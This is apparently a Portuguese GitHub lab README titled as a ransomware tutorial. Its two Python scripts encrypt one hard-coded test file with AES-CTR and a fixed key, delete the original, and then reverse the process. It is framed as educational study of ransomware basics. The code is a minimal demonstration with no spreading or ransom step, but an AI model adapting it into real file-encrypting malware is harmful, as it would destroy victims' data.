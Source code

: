 # Ransonware com Python - Encriptação e Descriptação

## Disclaimer

Repositório criado para fins educacionais.

## Objetivo

Este laboratório visa entender as bases do ransomware através da encriptação e descriptação através da linguagem Python e sua biblioteca AES.

### Habilidades Aprendidas

- Conceitos avançados de criptografia com linguagem de código
- Entendimento aprofundado de técnicas de hacking

### Ferramentas Utilizadas

- Kali Linux
- Python 3

## Desenvolvimento

Criar uma pasta com 3 arquivos: um arquivo de texto .TXT e dois arquivos .PY
No laboratório foram criados os arquivos: teste.txt, encrypter.py e decrypter.py

*Ref 1: Criação de pasta e arquivos*

No arquivo .TXT inserir um texto simples para fins de exemplo visual. Já nos arquivos .py foram incluídos os seguintes códigos:

**encrypter.py**

```
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

**decrypter.py**

```
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

Caso apareça o erro:

> **Traceback (most recent call last): File "/home/kali/projeto-ransomware/encrypter.py", line 2, in import pyaes ModuleNotFoundError: No module named 'pyaes'**

É porque, para rodar os comandos de encriptação e decriptação, é importante ter a biblioteca AES do Python. Neste caso, na pasta dos arquivos, rode o comando:

```
sudo apt-get update
```

Aguarde as atualizações e então rode este outro comando e aguarde:

```
sudo apt-get -y install python3-pyaes
```

Assim, o erro não aparecerá mais e os comandos Python poderão ser executados sem problemas:

*Ref 2: Instalação do Python3-pyaes*

Agora, ao rodar o comando:

```
python encrypter.py
```

O arquivo teste.txt será encriptado

*Ref 3: Encriptação do arquivo teste.txt*

E ao rodar o comando:

```
python decrypter.py
```

O arquivo voltará a aparecer corretamente:

*Ref 4 e 5: Decriptação do arquivo teste.txt.
